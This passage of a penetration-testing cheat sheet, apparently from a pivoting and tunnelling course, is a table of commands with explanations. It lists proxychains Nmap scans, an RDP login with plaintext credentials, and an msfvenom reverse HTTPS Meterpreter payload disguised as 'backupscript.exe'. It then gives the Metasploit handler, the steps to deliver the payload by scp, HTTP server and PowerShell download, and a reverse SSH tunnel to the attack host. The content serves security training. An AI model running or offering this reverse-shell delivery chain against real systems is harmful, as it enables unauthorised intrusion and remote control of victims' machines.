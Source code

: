 | `tail -4 /etc/proxychains.conf`                                                                                                                                                                                    | Linux-based command used to display the last 4 lines of /etc/proxychains.conf. Can be used to ensure socks configurations are in place.                                                                                                                                 |
| `proxychains nmap -v -sn 172.16.5.1-200`                                                                                                                                                                           | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against the hosts in the specified range `172.16.5.1-200` with increased verbosity (`-v`) disabling ping scan (`-sn`).                                          |
| `proxychains nmap -v -Pn -sT 172.16.5.19`                                                                                                                                                                          | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against 172.16.5.19 with increased verbosity (`-v`), disabling ping discover (`-Pn`), and using TCP connect scan type (`-sT`).                                  |
| `proxychains msfconsole`                                                                                                                                                                                           | Uses Proxychains to open Metasploit and send all generated network traffic through a SOCKS proxy.                                                                                                                                                                       |
| `msf6 > search rdp_scanner`                                                                                                                                                                                        | Metasploit search that attempts to find a module called `rdp_scanner`.                                                                                                                                                                                                  |
| `proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123`                                                                                                                                                | Used to connect to a target using RDP and a set of credentials using proxychains. This will send all traffic through a SOCKS proxy.                                                                                                                                     |
| `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`                                                                                            | Uses msfvenom to generate a Windows-based reverse HTTPS Meterpreter payload that will send a call back to the IP address specified following `lhost=` on local port 8080 (`LPORT=8080`). Payload will take the form of an executable file called `backupscript.exe`.    |
| `msf6 > use exploit/multi/handler`                                                                                                                                                                                 | Used to select the multi-handler exploit module in Metasploit.                                                                                                                                                                                                          |
| `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`                                                                                                                                                               | Uses secure copy protocol (`scp`) to transfer the file `backupscript.exe` to the specified host and places it in the Ubuntu user's home directory (`:~/`).                                                                                                              |
| `python3 -m http.server 8123`                                                                                                                                                                                      | Uses Python3 to start a simple HTTP server listening on port `8123`. Can be used to retrieve files from a host.                                                                                                                                                         |
| `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`                                                                                                                | PowerShell command used to download a file called backupscript.exe from a webserver (`172.16.5.129:8123`) and then save the file to location specified after `-OutFile`.                                                                                                |
| `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN`                                                                                                                                    | SSH command used to create a reverse SSH tunnel from a target to an attack host. Traffic is forwarded on port `8080` on the attack host to port `80` on the target.                                                                                                     |